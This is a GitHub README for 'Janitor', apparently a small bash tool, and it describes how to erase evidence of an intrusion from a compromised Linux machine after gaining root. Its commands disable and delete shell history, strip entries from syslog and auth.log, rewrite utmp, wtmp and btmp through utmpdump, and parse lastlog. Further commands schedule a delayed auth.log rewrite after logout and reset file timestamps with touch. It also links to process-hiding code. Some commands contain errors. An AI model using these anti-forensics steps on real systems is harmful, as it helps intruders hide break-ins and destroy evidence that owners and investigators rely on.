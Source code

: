# Janitor
Smalll bash script to scrub any and all logs/traces of malicious activity of a penetrated linux box.

## Leaving things as you found them
Once root access is gained to a system, one should remove any trace of themselves in the authlog, syslog, histfile (.bash_history for root and whatever user) as well as utmp, wtmp, and btmp (if you had any failed login attempts) and any other logs.

Note: I still need to expand the slept background processes to more than just auth.log

### Masking your history
As both whatever user you logged in as, and as root:
``` bash
set +o history
history
history -d <number preceding set +o history>
```
history is stored in `$HISTFILE` which you can also edit manually.

### Scrub syslog
Any programs you use that write to syslog should be cleared, so it's worth looking through `/var/log/syslog` to see if you've left any traces other than starting your session. To clear that,
`cat /var/log/syslog | grep -v "user\s" > tmp && mv tmp > /var/log/syslog`

### Scrub lastlog
`lastlog` shows the last time each user has logged in, and the ssh login message seems to print the previous value of `lastlog` for the user.

I need to determine the binary format of `lastlog` in order to edit/overwrite it. A good starting point would be reversing this terse perl script: 

```perl
perl -we '$recs = ""; while (<>) {$recs .= $_};$uid = 0;foreach (split(/(.{292})/s,$recs)) {next if length($_) == 0;my ($binTime,$line,$host) = $_ =~/(.{4})(.{32})(.{256})/;if (defined $line && $line =~ /\w/) {$line =~ s/\x00+//g;$host =~ s/\x00+//g;printf("%5d %s %8s %s\n",$uid,scalar(gmtime(unpack("I4",$binTime))),$line,$host)}$uid++}print"\n"' < /var/log/lastlog
```

Even better: https://github.com/krig/utils/blob/master/lastlog/lastlog.c

### Clearing utmp, wtmp, and btmp
``` bash
utmpdump /var/run/utmp > file.txt
             /log/wtmp
                 /btmp
```
then, edit file.txt (manually or using shell commands e.g. `cat file.txt | grep -v searchterm` to filter out any lines that contain `searchterm`) before doing
``` bash
utmpdump -r < file.txt > /var/run/utmp
                             /log/wtmp
                                 /btmp
```
                         
### Replacing auth.log (note: should also do this after logout, using sleep)

#### Example: (after sshing in as ubuntu and `sudo su`ing) 
(sleep 9 && cat /var/log/auth.log | grep -v "root\|ubuntu\|logind" > tmp && mv tmp  /var/log/auth.log)&

### Masking modification dates
Use `touch` to change the dates of files modified back to their original values.

### Notes

Are there process logs, or any other logs I'm missing?

Idea: Use btmp for a script with geoip api + mapbox to show where all the failed logins are coming from realtime

### Links
After writing this, found these nifty links:

  * http://www.theparticle.com/files/txt/hacking/hackingunix/hacking_unix-part3.txt

  * http://www.hcidata.info/lastlog.htm

  * https://github.com/krig/utils/blob/master/lastlog/lastlog.c

  * https://www.freedesktop.org/wiki/Software/systemd/journal-files/

  * http://www.phrack.org/issues/49/6.html#article

  * http://www.phrack.org/issues/51/6.html#article

  *  https://www.rsyslog.com/doc/master/configuration/filters.html
  
  *  https://docs.fedoraproject.org/en-US/Fedora/23/html/System_Administrators_Guide/s1-interaction_of_rsyslog_and_journal.html

  * https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/
  * https://github.com/gianlucaborello/libprocesshider/blob/master/processhider.c

  * https://stackoverflow.com/questions/12977179/reading-living-process-memory-without-interrupting-it-proc-kcore-is-an-option
  
  * https://www.cyberciti.biz/faq/howto-linux-unix-killing-restarting-the-process/
  send SIGHUP to force process to reload config file. `pkill -HUP rsyslogd`

  * https://www.microsoft.com/en-us/research/wp-content/uploads/2016/02/subvirt.pdf

  * https://unix.stackexchange.com/questions/355216/getting-output-from-netcat-decoding-it-and-returning-an-output

